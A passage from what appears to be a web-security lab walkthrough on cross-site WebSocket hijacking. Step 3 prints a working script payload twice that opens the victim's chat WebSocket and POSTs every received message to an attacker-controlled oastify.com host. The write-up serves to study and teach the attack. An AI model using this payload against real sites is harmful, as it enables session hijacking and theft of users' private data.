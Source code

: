 **Step2:**

In the websocket history I have noticed that the chatting is stard after READY message.

<img src="images/image61.png" alt="third" width="800">

So first we check if there is a websocket vulnerability

**Step3:**

Tying this payload  
```
<script>  
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');  
    ws.onopen = function() {  
        ws.send("READY");  
    };  
    ws.onmessage = function(event) {  
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});  
    };  
</script>
```

In my case it look like  
```
<script>  
    var ws = new WebSocket('wss://0a13006004d6afe9801e0d5800f1009a.web-security-academy.net/chat');  
    ws.onopen = function() {  
        ws.send("READY");  
    };  
    ws.onmessage = function(event) {  
        fetch('https://xab9ullnwpve8l34zdgalecs9jfa33rs.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});  
    };  
</script>
```
